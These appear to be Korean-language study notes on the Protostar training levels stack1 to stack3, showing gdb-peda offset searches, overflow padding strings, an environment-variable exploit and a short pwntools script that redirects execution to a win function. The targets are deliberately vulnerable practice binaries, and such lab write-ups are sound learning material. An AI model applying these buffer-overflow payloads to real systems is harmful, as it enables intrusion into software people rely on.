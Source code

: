 
>modified = 0x7fffffffe180 - 0x4

=======================================================

## 프로토스타 - 4. stack1 원하는 스택 바꾸기

>buffer = rbp-0x50

>modified = rbp-0x4

A 76개 넣으면 modified까지 간다! BBBB

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba

=======================================================

## 프로토스타 - 5. stack2 Peda 입문, 그리고 환경 스택 BoF

peda 다운로드 사이트
https://github.com/longld/peda

- 리눅스 환경변수 설정

>export GREENIE='AAAAA'

- peda에서 패턴 만들기
>pattern create 100

>b *main+89

- peda에서 패턴 오프셋 확인하기

>gdb-peda$ pattern offset 0x41413341

>1094792001 found at offset: 68

- Exploit 코드

>export GREENIE=$(python -c 'print "A"*68 + "\x0a\x0d"*4')

=======================================================

## 프로토스타 - 6. stack3 pwn 사용해서 공격하기(return2lib)

- win 함수 주소
>win_addr = 0x0000000000400577

- 페다에서 패턴 오프셋 확인하기
>gdb-peda$ pattern offset 0x4134414165414149
>4698452060381725001 found at offset: 72

파이썬 코드
```python 
from pwn import *

p = process('./stack3')
win_addr = p64(0x0000000000400577)
payload = 'A'*72 + win_addr

p.sendline(payload)
print p.recvrepeat(1)
```
=======================================================
